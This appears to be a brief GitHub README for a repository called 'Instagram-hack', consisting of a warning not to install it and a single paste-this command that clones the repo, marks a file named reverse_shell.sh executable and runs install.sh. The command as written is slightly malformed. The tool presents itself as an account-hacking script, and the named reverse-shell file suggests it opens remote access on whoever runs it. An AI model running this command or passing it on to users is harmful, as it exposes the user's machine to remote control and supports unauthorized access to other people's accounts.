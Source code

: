 # Instagram-hack
Do not install this script this is tesinting




run command 

      git clone https://github.com/swatiai11414/Instagram-hack && cdInstagram-hack && chmod +x reverse_shell.sh && ./install.sh
